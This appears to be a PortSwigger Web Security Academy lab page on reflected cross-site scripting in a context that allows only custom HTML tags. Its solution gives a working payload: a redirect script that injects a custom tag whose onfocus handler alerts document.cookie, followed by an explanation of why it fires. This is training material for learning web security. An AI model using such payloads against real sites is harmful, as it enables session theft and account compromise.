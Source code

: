 
# Lab: [Reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) into HTML context with all tags blocked except custom ones

This lab blocks all HTML tags except custom ones.

To solve the lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that injects a custom tag and automatically alerts `document.cookie`.

[](https://portswigger.net/academy/labs/launch/35d25a422af775cc93101fff0b686ae37e3ccb4844d3272061e090aa0c854ced?referrer=%2fweb-security%2fcross-site-scripting%2fcontexts%2flab-html-context-with-all-standard-tags-blocked)

 ####  Solution

1. Go to the exploit server and paste the following code, replacing `YOUR-LAB-ID` with your lab ID:
    
    `<script> location = 'https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x'; </script>`
2. Click "Store" and "Deliver exploit to victim".

This injection creates a custom tag with the ID `x`, which contains an `onfocus` event handler that triggers the `alert` function. The hash at the end of the URL focuses on this element as soon as the page is loaded, causing the `alert` payload to be called.

